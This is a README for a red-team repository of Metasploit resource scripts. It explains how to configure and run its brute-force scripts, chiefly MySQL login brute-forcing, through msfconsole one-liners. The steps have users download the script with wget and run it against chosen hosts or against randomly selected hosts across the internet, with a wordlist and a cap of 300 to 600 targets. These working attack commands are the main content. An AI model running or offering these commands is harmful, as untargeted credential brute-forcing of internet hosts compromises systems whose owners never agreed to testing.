 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource scripts in 3 diferent ways:

- execute resource script **( Scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### FINAL NOTES (warnings):

- The msfconsole database must be empty (**clean**) at resource script execution.<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />
- The best technic to use brute force scripts its to:<br />
`msfconsole -q -x 'hosts -d;services -d;resource /root/<resource_script_name>.rc`<br /><br />
- Brute force resource scripts will build one logfile in /root directory.<br />
`/root/<resource_script_name>.log`<br /><br />
- Brute force resource scripts deletes msfconsole database at exit (default).<br />
`msfconsole -q -x 'setg CLEAN false;resource /root/<resource_script_name>.rc'`<br />
**The above command instruct the rc script to not delete database at exit**<br /><br />

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`

- 3º clean msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`

- 4º run brute_force.rc resource script to search hosts on WAN<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/brute_force.rc'`

<br />

**HINT:** Brute force rc scripts requires the database to be empty, thats the reason why the script
cleans the database at exit, because at next time run if database contains any hosts, the script
will run the attacks againts database hosts (old hosts) and not the hosts found by current scans.

- 5º To populate the database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- 6º To export database contents to database.xml local folder (optional)<br />
`msf > db_export -f xml database.xml`

### Suspicious Shell Activity RedTeam @2019

<br />


